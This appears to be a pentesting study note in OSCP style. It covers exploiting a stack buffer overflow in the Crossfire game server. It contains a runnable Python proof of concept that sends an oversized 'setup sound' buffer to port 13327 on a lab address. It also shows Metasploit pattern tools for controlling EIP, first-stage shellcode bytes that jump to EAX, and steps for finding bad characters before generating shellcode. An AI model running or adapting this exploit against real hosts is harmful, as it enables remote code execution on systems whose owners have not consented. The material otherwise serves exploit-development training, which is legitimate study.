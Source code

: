 {% tab title="OSCP way" %}
{% code overflow="wrap" %}
```bash
https://www.exploit-db.com/exploits/1582/
https://github.com/eteran/edb-debugger
https://en.wikipedia.org/wiki/OllyDbg

# DEP, ASLR and Canaries disabled
https://en.wikipedia.org/wiki/Executable_space_protection
https://en.wikipedia.org/wiki/Address_space_layout_randomization
https://en.wikipedia.org/wiki/Buffer_overflow_protection#Canaries
# 1 - Run Crossfire example
# 2 - Use edb debugger to attach the process and run it (press twice if it stops)
edb
File > Attach > (attach the running process)


# Crossfire PoC
#!/usr/bin/python
import socket
host = "10.11.0.128"
crash = "\x41" * 4379
buffer = "\x11(setup sound " + crash + "\x90\x00#"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."
s.connect((host, 13327))
print s.recv(1024)
s.send(buffer)
s.close()
print "[*]Payload Sent !"


# Controlling EIP
msf-pattern_create -l $LENGTH
msf-pattern_offset -q $EIP # EIP address after crashing w/o 0x
# Then if we input an address to the script, use \x notation and little-endian approach


# Locating space for our shellcode
- Check if there is a register with some bytes of our shellcode and how many bytes we have
- If EAX has the beginning of the script, we can add a value to EAX and point to the beggining of the real shellcode
msf-nasm_shell
nasm > add eax,12
00000000  83C00C            add eax,byte +0xc
nasm > jmp eax
00000000  FFE0              jmp eax
first_stage = "\x83\xc0\x0c\xff\xe0\x90\x90"
buffer = "\x11(setup sound " + padding + eip + first_stage + "\x90\x00#" #\x90 is a NOP to maintain correct length


# Checking for Bad Characters
Send the whole range of characters from 00 to FF within our buffer and then monitored whether any of those bytes got mangled, swapped, dropped, or changed in memory.
After running PoC multiple times and eliminating one bad character at a time, we come up with a final list of badchars.
# Two ways: using gdb-gef or edb
1 Generate sort badchars with Python script
2.a Run the binary with gdb-gef, crash, check ESP register with x/100x $esp and check stack to find badchars
2.b Run the binary with edb, crash it and check stack to find badchars (they do not appear on the stack or other hex values are replacing them there)
3. Generate shellcode w/o badchars
```